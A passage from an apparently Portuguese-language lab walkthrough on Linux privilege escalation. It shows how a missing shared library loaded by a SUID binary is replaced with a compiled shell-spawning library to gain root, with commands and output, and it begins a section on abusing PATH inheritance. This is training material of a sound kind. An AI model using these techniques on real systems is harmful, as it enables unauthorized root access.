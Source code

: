 ```bash
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

Note que o arquivo `/usr/local/bin/suid-so` está tentando abrir o arquivo `/home/user/.config/libcalc.so` e como esse arquivo não existe, o programa exibe a mensagem `No such file or directory`.

Então vamos criar o arquivo `/home/user/.config/libcalc.so`, para isso podemos usar o arquivo `/home/user/tools/suid/libcalc.c` que é um script que irá gerar um shell bash:

```bash
user@debian:~$ mkdir /home/user/.config
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Agora vamos executar o arquivo `/usr/local/bin/suid-so` novamente:

```bash
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

<div class="page"/>

## **<a id="13"> • SUID / SGID Executables - Environment Variables.</a>**

O executável `/usr/local/bin/suid-env` pode ser explorado por herdar a variável de ambiente PATH do usuário e tentar executar programas sem especificar um caminho absoluto.

Vamos executar o programa e ver o funcionamento dele:

```bash
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1659) already running
. ok
```

Vamos executar o `strings` para verificar o que o programa está fazendo:

```bash
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

